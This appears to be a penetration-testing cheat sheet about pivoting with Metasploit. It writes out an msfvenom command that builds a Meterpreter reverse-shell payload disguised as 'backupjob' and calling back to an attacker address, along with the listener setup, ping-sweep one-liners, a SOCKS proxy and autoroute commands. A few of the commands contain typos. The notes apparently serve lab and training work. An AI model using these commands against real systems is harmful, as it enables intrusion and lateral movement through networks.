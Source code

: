 - Meterpreter shell for pivot, that return commands to attacker

```
# Start multihandler
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

- Ping sweep to find address of the target

```
# Module
post/multi/gather/ping_sweep RHOSTS=ADD_NETWORK

# Direct on meterpreter
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

# or
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
for i in {1..255}; do (ping -c 1 172.16.5.${i} | grep "bytes from" &); done
- c PACKET
- i time out

# Windows
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}


for /L %i in (1,1,255) do @ping -n 1 -w 172.16.5.%i >> nul && echo 172.16.5.%i is up
```

- ICMP blocked
  - TCP scan on ADD_NETWORK

- **Proxy**
```
# Set up proxy of metasploit
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a

jobs: check if it is running

# Route traffic via meterpreter session

use post/multi/manage/autoroute
set SESSION #
set SUBNET TARGET_NET

# or inside the meterpreter session
run autoroute -s 172.16.5.0/23
run autorute -p = list active routes
```
